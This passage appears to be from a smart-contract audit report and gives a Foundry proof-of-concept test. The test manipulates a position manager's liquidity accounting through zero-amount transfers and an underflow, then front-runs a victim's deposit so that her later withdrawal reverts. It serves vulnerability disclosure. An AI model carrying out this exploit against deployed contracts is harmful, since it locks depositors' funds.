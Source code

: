 ```diff
+        // move these amounts somewhere by passing 0 as the token amount. this will set removedLiquidity and netLiquidity to 0 while still retaining the tokens
+        sfpm.safeTransferFrom(address(this), address(0x1231), longTokenId, 0, "");
+
+        // burn the long position. this will cause underflow and set removedAmount close to uint128 max. but it will make the netLiquidity non-zero. burn the short position to remove the netLiquidity without increasing removedLiquidity
+        sfpm.burnTokenizedPosition(longTokenId, posSize, type(int24).min, type(int24).max);
+        sfpm.burnTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+
+        uint256 acc =
+            sfpm.getAccountLiquidity(address(pool), address(this), 0, strike - tickSpacing, strike + tickSpacing);
+        assert(acc.rightSlot() == 0);
+        assert(acc.leftSlot() > 2 ** 127);
+
+        // front-run Alice's deposit
+        sfpm.safeTransferFrom(address(this), Alice, shortTokenId, 0, "");
+        uint256 aliceDepositTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, isWETH, 0, 0, 0, strike, width);
+        vm.prank(Alice);
+        sfpm.mintTokenizedPosition(aliceDepositTokenId, 10e18, type(int24).min, type(int24).max);
+
+        // fees accrual in position
+        vm.prank(Swapper);
+        router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token1, token0, fee, Bob, block.timestamp, 1000e18, 0, 0)
+        );
+        (, int24 tickAfterSwap,,,,,) = pool.slot0();
+
+        assert(tickAfterSwap > tickLower);
+
+        // after fees accrual Alice cannot withdraw the amount due to reverting in premia calculation
+        vm.prank(Alice);
+        vm.expectRevert(Errors.CastingError.selector);
+        sfpm.burnTokenizedPosition(aliceDepositTokenId, 10e18, type(int24).min, type(int24).max);
+    }
+
+    function onERC1155Received(address, address, uint256 id, uint256, bytes memory) public returns (bytes4) {
+        return this.onERC1155Received.selector;
+    }
+
```

## Tools Used
Manual review
